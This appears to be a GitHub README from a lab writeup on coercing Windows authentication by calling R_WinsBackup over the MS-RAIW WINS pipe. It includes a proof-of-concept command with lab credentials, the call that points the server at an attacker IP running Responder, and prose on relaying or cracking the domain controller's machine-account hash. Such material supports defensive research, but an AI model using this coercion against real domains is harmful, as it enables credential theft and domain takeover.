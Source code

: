 # MS-RAIW - Remote call to R_WinsBackup (opnum 7)

## Summary

 - **Protocol**: [[MS-RAIW]: Remote Administrative Interface: WINS](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/830a759d-3157-4bfa-901a-d7dcd860c3b9)

 - **Protocol UUID**: 45f52c28-7f9f-101a-b52b-08002b2efabe

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `"\pipe\WinsPipe"`

 - **Function name**: [`R_WinsBackup`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/304d718f-5d5c-4ceb-b7e7-68deac3dc703)

 - **Function operation number**: `7`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `"\pipe\WinsPipe"` and bind to the desired [`MS-RAIW`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/830a759d-3157-4bfa-901a-d7dcd860c3b9) protocol (with uuid `45f52c28-7f9f-101a-b52b-08002b2efabe` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-RAIW`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/830a759d-3157-4bfa-901a-d7dcd860c3b9) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `"\pipe\WinsPipe"` This pipe is connected to the protocol [[MS-RAIW]: Remote Administrative Interface: WINS](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/830a759d-3157-4bfa-901a-d7dcd860c3b9) and allows to call RPC functions of this protocol. We will then call the remote [`R_WinsBackup`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/304d718f-5d5c-4ceb-b7e7-68deac3dc703) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_WinsBackup('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD R_WinsBackup(
   [in] handle_t ServerHdl,
   [in, string, ref] LPBYTE pBackupPath,
   [in] SHORT fIncremental
 );
```

## References

 - Documentation of protocol [MS-RAIW]: Remote Administrative Interface: WINS: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/830a759d-3157-4bfa-901a-d7dcd860c3b9

 - Documentation of function `R_WinsBackup`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/304d718f-5d5c-4ceb-b7e7-68deac3dc703